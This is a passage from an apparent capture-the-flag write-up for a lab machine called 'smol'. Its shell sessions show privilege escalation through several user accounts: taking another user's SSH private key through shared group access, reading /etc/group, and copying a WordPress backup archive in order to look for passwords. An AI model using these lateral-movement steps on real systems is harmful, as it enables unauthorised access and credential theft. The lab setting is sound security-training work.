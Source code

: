 We can change from www-data to diego user: su  

``
diego@smol:~$ cat user.txt
cat user.txt
-REDACTED- USER flag Done
diego@smol:~$ id
id
uid=1002(diego) gid=1002(diego) groups=1002(diego),1005(internal)
diego@smol:~$ pwd
pwd
/home/diego
diego@smol:~$ 
``

### Step 5 privesc [2]

We are in the group internal so we can check 'think's ssh keys and we have access to all of these files. 

Copy all data to local.  

We can use (chmod 600!) id.rsa and we can ssh to the server with user think. 

Next step to change privilege to gege. He is an owner of wordpress old back file. Maybe we can find passwords inside. 

```
think@smol:~$ id
uid=1000(think) gid=1000(think) groups=1000(think),1004(dev),1005(internal)

/home/gege:
total 31532
drwxr-x--- 2 gege internal     4096 Aug 18  2023 .
drwxr-xr-x 6 root root         4096 Aug 16  2023 ..
lrwxrwxrwx 1 root root            9 Aug 18  2023 .bash_history -> /dev/null
-rw-r--r-- 1 gege gege          220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 gege gege         3771 Feb 25  2020 .bashrc
-rw-r--r-- 1 gege gege          807 Feb 25  2020 .profile
lrwxrwxrwx 1 root root            9 Aug 18  2023 .viminfo -> /dev/null
-rwxr-x--- 1 root gege     32266546 Aug 16  2023 wordpress.old.zip

think@smol:~$ cat /etc/group |grep gege
gege:x:1003:
dev:x:1004:think,gege
internal:x:1005:diego,gege,think,xavi

```

### Step 6 privesc [3]

jump to gege and move file to local. 

```


think@smol:~$ su - gege
gege@smol:~$ 

gege@smol:~$ cp wordpress.old.zip /tmp/ 
gege@smol:~$ cd /tmp
gege@smol:/tmp$ chmod 777 wordpress.old.zip 
gege@smol:/tmp$ ls -la wordpress.old.zip 
-rwxrwxrwx 1 gege gege 32266546 Jan 26 00:36 wordpress.old.zip

```
